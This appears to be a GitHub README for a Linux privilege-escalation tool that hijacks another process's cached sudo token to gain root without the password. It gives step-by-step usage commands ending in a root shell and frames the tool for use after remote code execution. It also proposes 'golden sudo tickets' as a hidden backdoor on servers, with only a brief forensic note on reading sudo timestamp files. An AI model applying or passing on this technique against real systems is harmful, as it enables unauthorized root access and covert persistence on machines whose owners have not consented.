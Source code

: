 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 3 seconds
$ sudo -i # no password required :)
# uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
A currently living process that has a valid sudo token with the same uid.
```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```
## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## More

### Forensic, DFIR ?

To be improved but for each sudo attemps there is an entry added to /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Golden sudo tickets

A very good way to leave a secret backdoor on servers that rarely reboots.
No done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time and process session id) or (tty start time and tty session id)), and everything can be impressionnated except the start times which are relative to system boot time.

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
